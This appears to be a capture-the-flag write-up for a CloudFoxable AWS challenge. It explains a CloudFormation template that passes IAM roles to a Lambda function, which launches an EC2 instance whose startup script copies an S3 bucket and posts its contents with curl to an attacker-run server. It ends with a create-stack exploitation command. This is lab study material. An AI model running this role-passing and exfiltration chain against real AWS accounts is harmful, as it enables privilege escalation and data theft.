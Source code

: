 # Template configuration explanation:

* **Prerequisites:**
	* This config guide is for Unix-based CLIs only (syntax may vary).
	* Make sure you have AWC CLI installed.
	* profile cloudfoxable is ctf-starting-user.
	
* **line 7**    `"FunctionName": "CreateVulnEC2Func",`
	* A function that will deploy a vulnerable EC2 instance with permissions to access the S3 pain bucket.

* **line 10**    `"Role": "arn:aws:iam::111111111111:role/brian_mcbride",` 
	* Your AWS account ID (required).
	* The role that lambda can use, allowing it to create functions with it.
	
* **line 21**    `"    instance_iam_role = \"arn:aws:iam::111111111111:instance-profile/landon_donovan\"",` 
	* Your aws account id (required).
	* This is the instance-profile that will be assigned to the the vulnerable EC2 instance, it has access perms to the S3 pain bucket, the instance will use it to breach it.
	
* **line 22**    `"    subnet_id = \"subnet-0d642c7d77641df48\"",` 
	* Replace with one of cloudfox VPC subnet ids (required).
	* The subnet of the "cloudfox" VPC in which the vulnerable instance will run
	* You can find subnet ids for the cloudfox VPC by following these steps:
		1.  `aws ec2 describe-vpcs --profile cloudfoxable | grep cloudfox -A 10 | grep -i vpcid` (to find the cloudfox VPC ID)
		2. `aws ec2 describe-subnets --profile cloudfoxable --filters "Name=vpc-id,Values=vpc-*yourcloudfoxvpcid*" | grep -i subnetid` (to find all available subnet IDs in the cloudfox VPC)
	
* **line 23**     `"    security_group_id = \"sg-0b0fc22e569bc0022\"",` 
	* replace with the security group ID related to the subnet above (required).
	* the security group that the vulnerable instance will use, it is needed because it allows full outbound access to the instance, therefore it will be able to send the the flag over to the flask server.
	* You can find the security group available in the VPC by typing this:
		* `aws ec2 describe-security-groups --profile cloudfoxable --filters "Name=vpc-id,Values=vpc-*yourcloudfoxvpcid*" | grep -i securitygroup | sed 's/^.sg/sg/'` (remove the sed command if you get an error).

* **line 27**     `"            ImageId='ami-0036c16a0c45d97a4',",` 
	* or any AMI image of your choosing, linux/unix based (optional) this one is Amazon Linux.
	* Further configuration may require more changes if you change the AMI image,
	* This is the image that will be used to spin-up the EC2 instance.
	* The command to list publicly available on the AWS marketplace, free, Unix-based AMI images:
		* `aws ec2 describe-images \`
		    `--owners aws-marketplace \`
		    `--filters "Name=is-public,Values=true" \`
            `"Name=platform-details,Values=Linux/UNIX" \`
            `"Name=state,Values=available" \`
		    `--query 'Images[*].[ImageId, Name]' \`
		    `--output table \`
		  `--region us-west-2 \`
		  `--profile cloudfoxable` (You may have to zoom out to see the output clearly).

* **Line 36**     `"            UserData=\"\"\"#!/bin/bash \n",` 
	* The `UserData` var will define a shell script that will be executed upon instance creation.
	* Change the Unix script convention to the one of your like or the one supported on the AMI image you chose - if you changed it.

* **Line 37**     `"yum install aws-cli -q -y \n",` 
	* This will install the AWS CLI if it is not intalled by default on the spun-up image
	* you may have to change the syntax of the command if you changed the AMI image, make sure the modified command does its function, produces little to no output (to prevent different kind of unneeded errors to do with too much output) and says yes to everything (as you can manually interact with the startup script to confirm the installation).

* **Line 38**     `"aws s3 sync s3://pain-s3-cfu08/ /home/ec2-user/ \n",`
	* This will download the contents of the pain S3 bucket to the default user's home directory.
	* Adjust the name of the S3 bucket to much the bucket name in your account.
	* Again if you changed your AMI instance: make sure the default user of the instance has root perms - to prevent the script from failing as you wont be able to login,  make sure to put the download directory to a directory where the user will be allowed to read/write files without denial of access (home directory is a reliable example).

* **Line 39**     `"flag=$(cat /home/ec2-user/*) \n",`
	* This command puts the contents of everything in the directory of where the bucket contents where downloaded - into a variable called `flag`.
	* Adjust the directory name if your changed the AMI image as needed.

* **Line 40**     `"curl -X POST` http://111.111.111.111:8080/ `-d $flag \n",`
	* Your public ip for where you will run your flask server and the port it will be running on, make sure that the port is open to public access or is forwarded to your host in your router settings (otherwise you can setup the flask server in another cloud-based VM using a 3rd party account and configure inbound access there).

* **Line 73**     `"Role": "arn:aws:iam::111111111111:role/brian_mcbride",`
	*  Same modifications a purpose as in line 10.

* **Line 85**     `"    ami_id = \"ami-0036c16a0c45d97a4\"",` 
	* Adjust if you changed your AMI image id, this will be the AMI image ID that the delete function will take as reference as to what instance to delete.

* **Line 88**     `"           {\"Name\": \"image-id\", \"Values\": [\"ami-0036c16a0c45d97a4\"]},",` 
	* Adjust if you changed your AMI image id, these are the filter options for mapping out the running instances matching the AMI image id value argument.

# Exploitation workflow:

1. First using the christian-pulisic role given in the challlenge (with permissions to initialise cloudformation templates) initialise a cloudformation stack from your local .json file containing the defined resources (the exploit) and pass the tab_ramos role (which has permissions to create lambda functions) whilst doing so, a sample command would look like this:
```
	aws cloudformation create-stack \
    --stack-name PainExploitLambdaFormation \
    --template-body file://stackformation_exploit.json \
    --role-arn arn:aws:iam::111111111111:role/tab_ramos \
    --profile chiristian-pulisic	
```